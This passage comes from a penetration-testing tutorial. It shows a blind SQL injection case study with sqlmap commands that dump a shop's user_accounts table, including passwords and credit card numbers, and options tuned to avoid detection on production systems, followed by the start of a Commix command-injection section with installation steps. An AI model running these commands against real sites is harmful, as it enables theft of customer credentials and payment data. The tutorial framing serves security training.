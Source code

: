 3. **Targeted Extraction**:
   ```bash
   # Discovered user_accounts table
   sqlmap -u "https://target-shop.com/search?term=product" -D shop_prod -T user_accounts --columns
   
   # Extracted sensitive customer data
   sqlmap -u "https://target-shop.com/search?term=product" -D shop_prod -T user_accounts -C id,username,email,password,credit_card_number --dump
   ```

4. **Optimization for Production Systems**:
   Due to the blind nature of the injection and production environment constraints, we optimized our approach:
   ```bash
   # Used specific techniques with careful timing to avoid impacting the service
   sqlmap -u "https://target-shop.com/search?term=product" -D shop_prod -T user_accounts -C username,password --threads=2 --time-sec=2 --technique=T --hex --no-cast --batch
   ```

5. **Findings and Impact**:
   - Extracted 1,000+ customer records with hashed passwords
   - Identified several MD5-hashed admin passwords that could be cracked
   - Demonstrated full database access without triggering security alarms

This example showcases how even a blind SQL injection vulnerability can lead to significant data exposure when properly exploited, highlighting the importance of proper input validation and parameterized queries.

## Commix: Command Injection Exploiter

Command injection vulnerabilities occur when user input is improperly sanitized before being used in system commands. Commix (COMMand Injection eXploiter) is a specialized tool for detecting and exploiting command injection flaws in web applications.

### Installation

Commix comes pre-installed on Kali Linux and Parrot OS, but you can ensure you have the latest version:

```bash
# Update system
apt update

# Install Commix if not already installed
apt install commix -y

# Alternatively, get the latest version from GitHub
git clone https://github.com/commixproject/commix.git
cd commix
```

### Basic Usage

The simplest form of Commix usage targets a specific URL parameter:
